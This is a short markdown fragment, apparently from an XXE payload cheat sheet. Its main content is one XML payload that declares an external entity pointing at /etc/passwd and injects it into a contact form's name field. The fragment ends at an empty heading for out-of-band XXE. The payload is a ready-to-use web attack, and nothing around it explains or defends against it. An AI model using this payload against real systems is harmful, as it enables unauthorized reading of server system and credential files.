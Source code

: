 ####  `TWO`
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```

### *`out-band xxe`* :
